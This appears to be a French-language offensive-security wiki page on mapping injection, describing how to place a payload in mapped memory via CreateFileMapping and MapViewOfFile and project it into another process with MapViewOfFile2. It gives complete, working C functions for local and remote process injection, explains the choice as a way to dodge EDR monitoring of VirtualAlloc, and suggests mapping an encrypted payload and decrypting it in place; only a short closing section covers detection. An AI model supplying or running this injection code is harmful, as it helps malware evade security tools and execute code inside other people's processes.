

# Injection par mapping

L'injection par mapping stocke le payload dans de la mémoire *mappée* au lieu de la mémoire *privée*. Elle évite ainsi `VirtualAlloc`/`VirtualAllocEx`, des API très surveillées car massivement utilisées par les malwares, y compris dans les techniques vues dans [[Détournement de threads]] et [[Injection APC et Early Bird]].

## Mémoire privée contre mémoire mappée

La mémoire privée s'alloue avec `VirtualAlloc` ou `VirtualAllocEx`. Son usage est si courant côté offensif que les solutions de sécurité le surveillent de près. L'injection par mapping utilise le type *Mapped*, produit par `CreateFileMapping` et `MapViewOfFile`.

Corollaire à retenir : `VirtualProtect` et `VirtualProtectEx` **ne permettent pas** de modifier les permissions d'une mémoire mappée. Les permissions se fixent donc au moment de la création du mapping et de la vue.

## Local : les deux API

### CreateFileMapping

Crée un objet de mappage de fichier, c'est-à-dire un espace mémoire virtuel adossé au contenu d'un fichier disque ou à un autre emplacement mémoire.

```c
HANDLE CreateFileMappingA(
  [in]           HANDLE                hFile,                        // INVALID_HANDLE_VALUE
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,     // NULL
  [in]           DWORD                 flProtect,                   // PAGE_EXECUTE_READWRITE
  [in]           DWORD                 dwMaximumSizeHigh,           // NULL
  [in]           DWORD                 dwMaximumSizeLow,            // taille du payload
  [in, optional] LPCSTR                lpName                       // NULL
);
```

- `hFile` = `INVALID_HANDLE_VALUE` : le mapping est alors adossé au fichier de pagination système, donc créé en mémoire sans fichier disque, à condition de préciser la taille.
- `flProtect` = `PAGE_EXECUTE_READWRITE` : attention, cela ne crée pas une section `RWX` sur-le-champ, cela autorise seulement sa création ultérieure. Avec `PAGE_READWRITE`, l'exécution du payload deviendrait impossible.
- `dwMaximumSizeLow` = taille du payload.

### MapViewOfFile

Projette une vue du mapping dans l'espace d'adressage du processus et renvoie un pointeur sur le début de la projection.

```c
LPVOID MapViewOfFile(
  [in] HANDLE     hFileMappingObject,   // handle renvoyé par CreateFileMapping
  [in] DWORD      dwDesiredAccess,      // FILE_MAP_WRITE | FILE_MAP_EXECUTE
  [in] DWORD      dwFileOffsetHigh,     // NULL
  [in] DWORD      dwFileOffsetLow,      // NULL
  [in] SIZE_T     dwNumberOfBytesToMap  // taille du payload
);
```

- `dwDesiredAccess` fixe les permissions finales de la mémoire. Comme le mapping a été créé en `PAGE_EXECUTE_READWRITE`, on emploie `FILE_MAP_EXECUTE | FILE_MAP_WRITE` pour obtenir une mémoire exécutable et inscriptible.
- Cohérence obligatoire : un mapping créé en `PAGE_READWRITE` ne pourra jamais donner une vue exécutable ; demander `FILE_MAP_EXECUTE` dans ce cas ferait échouer `MapViewOfFile`.

### Fonction d'injection locale

```c
BOOL LocalMapInject(IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

    HANDLE hFile         = NULL;
    PVOID  pMapAddress   = NULL;

    hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE,
                               NULL, sPayloadSize, NULL);
    if (hFile == NULL)
        return FALSE;

    pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sPayloadSize);
    if (pMapAddress == NULL)
        return FALSE;

    memcpy(pMapAddress, pPayload, sPayloadSize);

    *ppAddress = pMapAddress;
    CloseHandle(hFile);
    return TRUE;
}
```

L'exécution peut ensuite se faire par `CreateThread` pour simplifier, ou par une technique plus discrète comme le [[Détournement de threads]].

## Distant : MapViewOfFile2

En distant, la démarche est la même jusqu'à la copie, puis on projette une **seconde vue** du même mapping directement dans le processus cible.

1. `CreateFileMapping` pour créer l'objet de mappage.
2. `MapViewOfFile` pour le projeter dans le processus local.
3. Copier le payload dans la vue locale.
4. `MapViewOfFile2` pour projeter le même objet dans l'espace distant de la cible.

```c
PVOID MapViewOfFile2(
  [in]           HANDLE  FileMappingHandle,  // handle de CreateFileMapping
  [in]           HANDLE  ProcessHandle,      // handle de la cible (PROCESS_VM_OPERATION)
  [in]           ULONG64 Offset,             // NULL
  [in, optional] PVOID   BaseAddress,        // NULL
  [in]           SIZE_T  ViewSize,           // NULL
  [in]           ULONG   AllocationType,     // NULL
  [in]           ULONG   PageProtection      // permissions souhaitées
);
```

- `ProcessHandle` doit porter le masque d'accès `PROCESS_VM_OPERATION`.
- `PageProtection` fixe les permissions de la vue distante (`PAGE_EXECUTE_READWRITE` pour exécuter le payload).

```c
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

    HANDLE hFile            = NULL;
    PVOID  pMapLocalAddress = NULL,
           pMapRemoteAddress = NULL;

    hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE,
                              NULL, sPayloadSize, NULL);
    if (hFile == NULL)
        return FALSE;

    // Vue locale : uniquement inscriptible, inutile de l'exécuter ici
    pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
    if (pMapLocalAddress == NULL)
        return FALSE;

    memcpy(pMapLocalAddress, pPayload, sPayloadSize);

    // Vue distante du même mapping
    pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL,
                                       PAGE_EXECUTE_READWRITE);
    if (pMapRemoteAddress == NULL)
        return FALSE;

    *ppAddress = pMapRemoteAddress;
    CloseHandle(hFile);
    return TRUE;
}
```

Contrairement au cas local, la vue locale n'a pas besoin d'être exécutable : on utilise `FILE_MAP_WRITE` pour la copie, l'exécution se faisant à distance.



## Le partage de la vue comme levier

`MapViewOfFile2` partage le handle de mapping avec `MapViewOfFile` : toute modification apportée au payload dans la vue locale se répercute dans la vue distante. C'est exploitable en conditions réelles : on mappe un payload **chiffré** vers la cible, puis on le déchiffre localement, ce qui a pour effet de le déchiffrer dans la vue distante, prête à l'exécution. Cette approche rejoint [[Chiffrement du payload]] et limite la présence de code en clair pendant le transfert.

## UnmapViewOfFile et piège

`UnmapViewOfFile` libère une vue précédemment mappée et n'exige que son adresse de base. Règle absolue : ne jamais démapper tant que le payload s'exécute.

En distant, le piège est plus sévère. La vue distante n'étant qu'un reflet de la vue locale, démaper le mapping local pendant que le payload tourne dans la cible fait planter le processus distant. Voir [[Mécanismes de détection]] pour la portée réelle de ces contre-mesures.

## Détection et limites

- `CreateFileMapping` suivi d'un `MapViewOfFile2` vers un autre processus est une chaîne caractéristique, désormais bien documentée.
- Un mapping adossé au fichier de pagination avec un nom vide reste un signal (built-in EDR, ETW).
- Les permissions restent déclarées à la création : pas de transition `RW` puis `RX` visible via `VirtualProtect`, ce qui peut au contraire rendre la vue distante immédiatement `RWX`.
- Le déchiffrement à distance est élégant mais laisse le payload en clair dans la cible.
